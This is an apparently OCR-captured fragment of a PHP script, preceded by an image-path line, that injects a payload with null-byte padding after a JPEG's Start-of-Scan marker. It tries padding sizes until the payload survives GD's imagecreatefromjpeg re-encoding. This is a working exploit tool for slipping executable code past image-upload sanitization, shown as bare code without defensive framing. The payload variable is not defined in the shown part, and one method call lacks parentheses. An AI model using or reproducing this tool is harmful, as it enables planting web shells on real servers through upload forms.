```php
    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
```